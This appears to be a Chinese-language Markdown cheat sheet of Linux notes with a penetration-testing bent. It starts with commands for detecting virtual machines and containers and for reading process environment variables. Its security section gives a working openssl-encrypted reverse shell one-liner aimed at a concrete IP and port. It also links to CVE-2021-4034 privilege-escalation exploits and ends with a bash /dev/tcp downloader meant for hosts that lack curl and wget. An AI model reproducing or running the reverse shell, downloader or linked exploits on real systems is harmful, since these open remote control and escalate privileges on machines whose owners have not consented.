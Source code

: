 # Linux

## 信息查看
### 查看是否是虚拟机
lshw -class system | grep -i VM & grep -i virtual
dmesg | grep -i VM & grep -i virtual
dmidecode -s system-product-name
ls /tmp
systemd-detect-virt
virt-what
ls -alh /.dockerenv
cat /proc/1/cgroup


## 查看启动时的环境变量

```bash
cat /proc/$PID/environ


例如： /proc/1/environ
```


## 安全

### openssl 回弹shell

```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes

openssl s_server -quiet -key key.pem -cert cert.pem -port 4242

mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 1.117.43.77:4242 > /tmp/s; rm /tmp/s
```

### 提权

**CVE-2021-4034**

> Linux Polkit 权限提升漏洞
[CVE-2021-4034](https://github.com/zhzyker/CVE-2021-4034)
- https://github.com/berdav/CVE-2021-4034
- https://xz.aliyun.com/t/10870

- Redhat/CentOS 发行版下通过写恶意网卡配置文件进行命令执行的方式
    - https://seclists.org/fulldisclosure/2019/Apr/24

### 奇技淫巧

- linux在没有curl和wget的情况下如何用shell实现下载功能
    - https://zgao.top/linux%e5%9c%a8%e6%b2%a1%e6%9c%89curl%e5%92%8cwget%e7%9a%84%e6%83%85%e5%86%b5%e4%b8%8b%e5%a6%82%e4%bd%95%e7%94%a8shell%e5%ae%9e%e7%8e%b0%e4%b8%8b%e8%bd%bd%e5%8a%9f%e8%83%bd/
```bash
#!/bin/bash
# 无依赖的http下载
# https://zgao.top/linux%e5%9c%a8%e6%b2%a1%e6%9c%89curl%e5%92%8cwget%e7%9a%84%e6%83%85%e5%86%b5%e4%b8%8b%e5%a6%82%e4%bd%95%e7%94%a8shell%e5%ae%9e%e7%8e%b0%e4%b8%8b%e8%bd%bd%e5%8a%9f%e8%83%bd/
# https://github.com/c4pr1c3/cuc-ns/blob/master/chap0x07/exp/webgoat/wget.sh

function DOWNLOAD() {

    local URL=$1

    if [ -z "${URL}" ]; then
        printf "Usage: %s \"URL\" [e.g.: %s http://www.xxx.com/test.json]" \
            "${FUNCNAME[0]}" "${FUNCNAME[0]}"
        return 1;
    fi

    read proto server path <<< "${URL//"/"/ }"
    DOC=/${path// //}
    HOST=${server//:*}
    PORT=${server//*:}
    [[ x"${HOST}" == x"${PORT}" ]] && PORT=80

    exec 3<>/dev/tcp/${HOST}/$PORT
    echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
    while IFS= read -r line ; do
        [[ "$line" == $'\r' ]] && break
    done <&3
    nul='\0'
    while IFS= read -d '' -r x || { nul=""; [ -n "$x" ]; }; do
        printf "%s$nul" "$x"
    done <&3
    exec 3>&-
}

DOWNLOAD "$1"
```

